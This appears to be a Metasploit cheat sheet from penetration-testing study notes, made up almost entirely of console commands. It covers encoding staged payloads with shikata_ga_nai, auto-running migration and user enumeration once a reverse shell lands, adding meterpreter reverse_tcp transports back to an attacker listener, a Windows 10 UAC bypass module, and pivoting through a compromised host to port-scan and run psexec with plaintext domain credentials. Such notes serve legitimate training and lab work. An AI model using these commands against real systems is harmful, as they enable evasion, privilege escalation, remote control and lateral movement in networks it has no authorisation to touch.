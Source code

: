 ### Meterpreter Payloads
```
search meterpreter type:payload

```

### Advanced Features and Transport
```
show advanced
set EnableStageEncoding true #to encode the second code portion of staged payload
set StageEncoder x86/shikata_ga_nai
exploit -j


set AutoRunScript post/windows/manage/migrate #This migrate automatically on a notepad process and run the notepad in background

set AutoRunScript windows/gather/enum_logged_on_users #to be ran immediately after reverse shell is gotten
exploit -j 
```

#### Meterepreter transport 
```
meterpreter > transport list
transport add -t reverse_tcp -l 10.11.0.4 -p 5555
transport list

#use the current new transport set
background
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.11.0.4
set LPORT 5555
exploit -j

sessions -i 5
transport next
sessions -i 6
```

#### windows 10 uac bypass
```
use exploit/windows/local/bypassuac_injection_winsxs
```
#### Pivoting with the Metasploit Framework
```
msf5 > route add 192.168.1.0/24 11
#192.168.1.0/24 is the new network to pivot to and 11 session id
msf5 > route print

#At this step we can now enumerate the subnet
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.110
...

#And obtain even a shell through bind shell
use exploit/windows/smb/psexec
set SMBDomain corp
set SMBUser jeff_admin
set SMBPass Qwerty09!
set RHOSTS 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp
set RHOST 192.168.1.110
```